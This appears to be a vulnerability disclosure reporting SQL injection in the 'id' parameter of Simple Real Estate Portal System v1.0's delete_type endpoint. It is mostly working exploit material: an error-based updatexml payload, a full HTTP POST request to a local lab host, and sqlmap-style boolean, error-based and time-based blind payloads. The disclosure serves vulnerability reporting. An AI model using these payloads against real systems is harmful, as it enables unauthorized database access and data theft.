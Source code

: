 ## Simple Real Estate Portal System v1.0 has a SQL injection vulnerability

vendors: https://www.sourcecodester.com/php/15184/simple-real-estate-portal-system-phpoop-free-source-code.html

Vulnerability file: /reps/classes/Master.php?f=delete_type

Vulnerability location: /reps/classes/Master.php?f=delete_type , id

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point 

```
POST /reps/classes/Master.php?f=delete_type HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/reps/admin/?page=types
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=b7n0d4rju88m3p50kmalnvn6ti
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ //id is Injection point
```

![image](https://user-images.githubusercontent.com/54017627/160311894-65380ea1-f410-44a3-b81c-a72774667bbd.png)

```sql
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=2' RLIKE (SELECT (CASE WHEN (7750=7750) THEN 2 ELSE 0x28 END))-- wAyE

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=2' AND (SELECT 5093 FROM(SELECT COUNT(*),CONCAT(0x716a7a6271,(SELECT (ELT(5093=5093,1))),0x71706b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vBmh

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2' AND (SELECT 4716 FROM (SELECT(SLEEP(5)))NHrz)-- bhFd
---
```

![image](https://user-images.githubusercontent.com/54017627/160311963-b40cf9f3-5fa4-4693-b374-22d0695c80ad.png)
